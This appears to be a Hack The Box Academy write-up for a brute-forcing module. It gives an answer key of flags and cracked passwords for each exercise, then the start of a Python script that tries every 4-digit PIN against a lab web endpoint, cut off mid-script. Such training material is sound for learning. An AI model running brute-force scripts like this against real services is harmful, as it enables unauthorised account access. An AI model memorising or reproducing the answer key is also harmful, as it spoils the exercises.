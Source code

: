 
| Section | Question Number | Answer |
| --- | --- | --- |
| Brute Force Attacks | Question 1 | HTB{Brut3\_F0rc3\_1s\_P0w3rfu1} |
| Dictionary Attacks | Question 1 | HTB{Brut3\_F0rc3\_M4st3r} |
| Basic HTTP Authentication | Question 1 | HTB{th1s\_1s\_4\_f4k3\_fl4g} |
| Login Forms | Question 1 | HTB{W3b\_L0gin\_Brut3F0rc3} |
| Web Services | Question 1 | qqww1122 |
| Web Services | Question 2 | HTB{SSH\_and\_FTP\_Bruteforce\_Success} |
| Custom Wordlists | Question 1 | HTB{W3b\_L0gin\_Brut3F0rc3\_Cu5t0m} |
| Skills Assessment Part 1 | Question 1 | Admin123 |
| Skills Assessment Part 1 | Question 2 | satwossh |
| Skills Assessment Part 2 | Question 1 | thomas |
| Skills Assessment Part 2 | Question 2 | HTB{brut3f0rc1ng\_succ3ssful} |

## Acronyms Used in Writeups

| Acronym | Meaning |
| --- | --- |
| STMIP | Spawned Target Machine IP Address |
| STMPO | Spawned Target Machine Port |
| PMVPN | Personal Machine with a Connection to the Academy's VPN |
| PWNIP | Pwnbox IP Address (or PMVPN IP Address) |
| PWNPO | Pwnbox Port (or PMVPN Port) |

# Brute Force Attacks

## Question 1

### "After successfully brute-forcing the PIN, what is the full flag the script returns?"

After spawning the target, students will save the following Python3 PIN brute-force script as `solver.py` based on their STMIP and STMPO in the `ip` and `port` variables:

Code: python3

```python3
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    
    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
```